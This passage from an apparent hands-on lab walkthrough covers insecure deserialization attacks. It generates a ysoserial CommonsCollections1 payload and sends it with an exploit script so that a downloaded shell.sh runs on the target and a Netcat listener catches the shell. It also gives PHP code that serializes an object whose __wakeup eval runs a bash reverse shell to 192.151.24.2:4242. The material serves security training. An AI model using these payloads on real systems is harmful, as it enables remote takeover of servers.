 

Execute the python code again to send the payload for making shell.sh file executable.

```
python exploit.py 192.24.161.3 8080 /root/payload.out
```



Generate a payload for executing the downloaded shell.sh file again.

```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "/bin/bash /tmp/shell.sh" > /root/payload.out
```



Execute the python code again to send the payload to the target machine for executing shell.sh file.

```
python exploit.py 192.24.161.3 8080 /root/payload.out
```

Open the terminal where the Netcat was listening. The shell should arrive on the Netcat listener.

Check the id by the following command.

----

#### Lab3: PHP Insecure Deserialization





```php
<?php
class PHPObjectInjection{
    public $inject;
    function __construct(){

    }

    function __wakeup(){
        if(isset($this->inject)){
            eval($this->inject);
        }
    }
}

$obj = new PHPObjectInjection();


$obj->inject = "system('/bin/bash -c \'bash -i >& /dev/tcp/192.151.24.2/4242 0>&1\'');";
print_r(serialize($obj));

```
